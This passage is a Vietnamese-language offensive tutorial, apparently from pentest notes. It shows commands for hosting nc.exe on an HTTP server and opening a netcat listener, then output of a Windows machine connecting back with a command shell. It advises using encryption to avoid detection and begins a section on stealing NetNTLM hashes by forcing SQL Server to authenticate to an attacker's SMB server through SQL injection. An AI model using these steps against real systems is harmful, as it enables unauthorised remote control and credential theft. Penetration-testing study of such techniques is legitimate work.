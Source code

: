 4. **Thiết lập môi trường tấn công:**
   - **Chạy HTTP server để phục vụ `nc.exe`:**
     ```bash
     python3 -m http.server 80
     ```
   - **Khởi động listener trên port 9999:**
     ```bash
     nc -nvlp 9999
     ```

---

### **4. Kết quả**

- **Kết nối thành công:**
  ```plaintext
  Ncat: Version 7.93 ( https://nmap.org/ncat )
  Ncat: Listening on :::9999
  Ncat: Listening on 0.0.0.0:9999
  Ncat: Connection from 192.168.43.156.
  Microsoft Windows [Version 10.0.19043.1826]
  C:\Windows\system32>
  ```

- Bạn có thể thực hiện các lệnh trực tiếp trên shell này.

---

### **Lưu ý**

1. **Phòng tránh lỗi:**
   - Đảm bảo URL tải `nc.exe` hợp lệ.
   - Kiểm tra firewall trên máy mục tiêu nếu không thể kết nối.
   - Sử dụng port không bị chặn (9999 là ví dụ).

2. **Tăng cường bảo mật:**
   - Sử dụng kết nối mã hóa như SSH hoặc HTTPS để tránh bị phát hiện.

---

12
### **Khai thác NetNTLM Hash qua SQL Injection**

---

### **Tổng quan**

**NetNTLM hash** là dữ liệu xác thực Windows được gửi qua giao thức SMB khi một máy chủ cố gắng truy cập chia sẻ mạng. Lợi dụng điều này, chúng ta có thể:
1. **Buộc SQL Server gửi hash** tới một SMB server mà chúng ta kiểm soát.
2. **Thu thập NetNTLM hash** từ SMB server.
3. **Crack hash** để lấy mật khẩu.

---

